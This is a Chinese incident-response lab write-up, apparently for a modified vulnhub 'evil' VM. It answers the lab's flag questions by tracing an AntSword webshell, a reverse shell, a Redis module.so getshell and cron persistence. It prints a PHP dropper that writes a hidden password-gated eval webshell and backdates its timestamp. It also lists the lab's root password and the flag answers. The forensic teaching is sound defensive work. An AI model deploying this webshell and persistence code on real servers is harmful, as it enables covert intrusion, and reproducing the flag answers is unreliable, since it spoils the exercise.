

## 前言

> 环境来源：[州弟学安全|学习干货|详解一次简单的综合应急响应学习思路](https://mp.weixin.qq.com/s?__biz=MzkzMDE5OTQyNQ==&mid=2247484404&idx=1&sn=a340aa925da61fd48f3fb19a17d2c71d&chksm=c27ca11af50b280cabf4270312c9482b6d3cd8a35865cd8f1e58e1d4f3cb37e2020364351100&cur_album_id=3203819529227649027&scene=189#wechat_redirect)

主要是学习思路，靶机原型为vulnhub-evil，其中做了部分改动，以蓝方视角呈现，只作为总结、较为简单、缕清思路，学习的过程及总结的意义远大于所需的结果！

> ```
> 文章结尾会注明攻击者大概思路、不要疑惑为什么有直接的入侵方式还这么麻烦一万个人有一万个人攻击方法，一个站有十个洞肯定是要全都搜集一遍提交，主要是为了学习思路
> ```

## 环境下载

```
系统：Debian 4.19.194
Linux账号密码：root/root123
镜像扩展名：.OVA
```

通过网盘分享的文件：security3.zip

靶机环境获取地址：

- https://cloud.189.cn/t/aeYRRfb6ZNNn （访问码：pnt1）
- https://pan.baidu.com/s/14cKKrLItm8BoVwCQFxl15Q 提取码: 5ajt 

## 题目

```
应急响应-简单综合应急响应
说明: 抓取的流量包: result.pcap 在 /result.pcap
1.审计日志及流量包，攻击者通过下载的木马文件的源地址是？
2.根据流量包特征，远控工具使用的哪个？
3.审计流量包，木马文件连接密码是什么？
4.审计流量包，攻击者反弹的IP和端口是什么？
5.攻击者通过某服务写入了木马，请写出攻击者上传的木马文件名
6.写出并分析写入的木马文件内的flag字段
7.攻击者在服务器内权限维持请求外部地址和恶意文件的地址 flag{http://xxxxxxxxxx/xx.xxx}
```

## 开始挑战

### 1.审计日志及流量包，攻击者通过下载的木马文件的源地址是？

> flag{192.168.150.253}

```bash
awk '{print $1}' access.log.1|sort|uniq -c|sort -nr
```


`http.request.uri contains "shell.php"`


### 2.根据流量包特征，远控工具使用的哪个？

> flag{蚁剑}

> 参考:[先知社区|蚁剑流量分析](https://xz.aliyun.com/t/14162?time__1311=GqAxu7G%3DoewxlxGg2DyDmor%2Bqqg80iioD)

蚁剑 base64加密

(1) 连接密码直接暴露 (2) eval函数明显 (3) 多个'_'符号进行分割


### 3.审计流量包，木马文件连接密码是什么？

对流量包对应条件过滤筛选后，查看.shell.php操作记录

第50962条流量中，攻击者使用 'pwd' 作为密码连接，但是连接失败


后续流量攻击者使用 'cmd' 作为密码进行操作，可以成功执行




### 4.审计流量包，攻击者反弹的IP和端口是什么？

> flag{192.168.150.199:4444}

从攻击者视角来看，蚁剑作为伪终端无法进行很多操作，攻击者想要反弹shell进行后续操作，分析流量包可以看出

在报文中，依次按照顺序查看value，取出操作值(base64编码),进行解码


### 5.攻击者通过某服务写入了木马，请写出攻击者上传的木马文件名

> flag{module.so}

在机器中看到了当前开放的业务端口，查看redis服务的版本


查看redis服务的日志 /var/log/redis.log 翻看到相关连接日志：` cat /var/log/redis.log`


攻击者192.168.150.199连接到redis，上传到根目录下module.so文件，且根据当前redis版本及目前配置，可以判断攻击者使用了redis-getshell

### 6.写出并分析写入的木马文件内的flag字段

> flag{XJ_78f012d7-42fc-49a8-8a8c-e74c87ea109b}


### 7.攻击者在服务器内权限维持请求外部地址和恶意文件的地址 flag{http://xxxxxxxxxx/xx.xxx}

> flag{http://192.168.150.199:88/shell.php}

攻击者使用redis拿到root权限后，尝试进行权限维持，写入或下载方式放置后门


通过查看 /etc/crontab文件看到，攻击者通过写入定时任务，请求/opt/cron.sh


查看`.shell.php`


**通过grep命令查看到 /var/www/html/secret/index.php 有相关的定时写入动作(上帝视角)**


```php
<?php
    $file = '/var/www/html/secret/.shell.php';
    $code = '<?php if(md5($_POST["password"])=="accc9105df5383111407fd5b41255e23"){@eval($_POST[\'cmd\']);} ?>';
    file_put_contents($file, $code);
    system('touch -m -d "2023-12-20 12:01:50" /var/www/html/secret/.shell.php');
    usleep(5000);
?>
```

## 总结

**攻击者视角**

```
1. 攻击者前期通过nmap等相关工具扫描端口
2. 通过扫描的端口先进行目录探测(即使发现redis)
3. 探测到可以命令执行的php文件(原靶机为文件包含)
4. 命令执行后以wget的方式下载一句话木马到靶机
5. 使用蚁剑连接做系统命令执行操作
6. 蚁剑终端所做操作有限，尝试使用系统工具反弹shell
7. 反弹到shell后、当前权限低，尝试提权
8. 查看系统运行服务及配置后对redis进行getshell
9. 通过redis-getshell拿到root权限10. 做权限维持、写入或下载后门木马
```